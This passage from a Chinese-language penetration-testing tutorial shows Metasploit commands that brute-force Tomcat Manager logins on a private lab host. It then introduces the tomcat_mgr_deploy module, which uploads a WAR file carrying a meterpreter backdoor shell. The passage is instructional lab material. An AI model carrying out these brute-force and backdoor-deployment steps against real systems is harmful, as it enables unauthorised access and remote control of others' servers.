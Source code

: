 ```
# 使用 search 搜索相应模块
search tomcat
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480471561538.png-wm)

使用 use 命令，选择相应的模块：

```
# 使用命令，选择相应模块
use auxiliary/scanner/http/tomcat_mgr_login

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480471975188.png-wm)

接着查看所要设定的必要参数，并用 set 命令，设置索要设置的参数：

```
# 显示所要设置的参数
show options

# 使用 set 设置相应的参数
set RHOSTS 192.168.122.102

# 设置相应的端口
set RPORT 8180
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472334896.png-wm)


接着使用命令，进行攻击，暴力破解，跑出密码：

```
# 对所要渗透的目标主机，进行攻击
exploit
```


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472456820.png-wm)


由图可以看出，前面符号为绿色的 + 号的，即为可用的成密码。


### 4.2 利用 Tomcat 密码进行渗透

由相应模块得到 Tomcat 密码之后，我们将利用密码，对目标主机进行渗透，使用模块 `exploit/multi/http/tomcat_mgr_deploy`，这个模块中的逻辑是登录 Tomcat Manager，然后执行一段 payload，而这段 payload 的作用就是使用 PUT 操作上传一个 war 包，这个 war 包中包含一个 jsp 文件来提供 meterpreter 后门 Shell。

攻击模块代码：

+ [exploit/multi/http/tomcat_mgr_deploy](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/tomcat_mgr_deploy.rb)

